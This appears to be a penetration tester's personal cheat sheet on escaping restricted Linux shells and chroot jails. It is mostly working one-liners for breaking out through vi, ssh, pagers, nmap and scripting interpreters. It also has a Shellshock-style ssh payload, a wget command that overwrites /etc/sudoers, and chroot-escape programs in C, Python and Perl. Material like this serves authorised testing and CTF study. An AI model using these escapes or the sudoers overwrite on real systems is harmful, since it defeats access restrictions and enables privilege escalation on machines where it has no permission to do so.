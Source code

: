 # Linux Shell Escapes

These not the same as [Bypasses](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions) or [Python Sandboxes](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes), if I faceplant into needing to research those they wioll get there own article from further research than just greta Hacktricks.

Check [GTFObins](https://gtfobins.github.io/), most of the weird one from [https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf](https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf) are in here A

## Bash Jails

Enumerate -> commented Potential breakout
```bash
echo $SHELL # 
echo $PATH
echo /usr/bin/* # no ls no problem
# Check for operators:
# > >> < | & ; : ' " `
echo "bash -i" | tee script.sh # When 
env # 
export
pwd
which $bin 
${whoami} # shelle execution
# Editors?
 vi, nano, ed, vim 
# Programming/Scripting?
php, perl, python, ruby, lua
# Unwieldy list all commands - PSJoshi
compgen -c 
```

Vim and Vi - Beware requirements for ESP key in shell holding `Ctrl` and pressing `[` can work as alterative to access Vi(m) console.
```bash
set shell=/bin/sh
:shell
```

SSH breakout the bash
```bash
ssh -t user@$ip bash # Get directly an interactive shell
ssh user@$ip -t "bash --noprofile -i"
ssh user@$ip -t "() { :; }; sh -i "
ssh user@$ip -t "/bin/sh"
```

Bring your own sudoers
```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```

Declare
```bash
declare -n PATH; export PATH=/bin;bash -i
 
BASH_CMDS[shell]=/bin/bash;shell -i
```

Create a script that runs bash in a writable file in a writable directory
```bash
red /bin/bash
find / -perm -o w -type d 2>/dev/null
> w wx/path # Write /bin/bash in a writable and executable path
```

```bash
python -c 'import os; os.system("/bin/sh")'
php -r 'exec("sh -i");'
perl -e 'exec "/bin/sh"'
ruby -e 'exec "bin/sh"'
lua -e 'os.execute("bin/sh")'
awk 'BEGIN {system("/bin/sh")}'
find / -name foobar -exec /bin/sh \;
nmap --interactive
nmap> !sh
```


A [[Reverse-Shells-Listing]] that would call `/bin/bash` or `/bin/sh`?

Pagers like Less or More  - Hacknos, untested and not well documented - NullByte fixes that
```bash
# pager binaries
less $file.txt
more $file.txt
```

```
!'bash'
!/bin/bash
!/bin/sh
```

## Chroot 

If you are root inside a chroot you can escape creating another chroot. 

```
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
    mkdir("chroot-dir", 0755);
    chroot("chroot-dir");
    for(int i = 0; i < 1000; i++) {
        chdir("..");
    }
    chroot(".");
    system("/bin/bash");
}
```

Using Python
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
    os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
```

Perl:
```perl
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
    chdir ".."
}
chroot ".";
system("/bin/bash");
```

## Kubernetes Restricted Environment

If it is not docker then you may need to escape a Kuberenetes cluster; for more detailed information about Kubernetes or Hacking Kuberenetes see [[Kubernetes]] and [[Kubernetes-Hacking]]

## References

[Hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/escaping-from-limited-bash)
[Rbash escapes Article from hacknos](https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/)
[Nullbyte](https://null-byte.wonderhowto.com/how-to/escape-restricted-shell-environments-linux-0341685/)
[PSJoshi ans comgen -c](https://gist.github.com/PSJoshi/04c0e239ac7b486efb3420db4086e290)
[exploit-db article](https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf)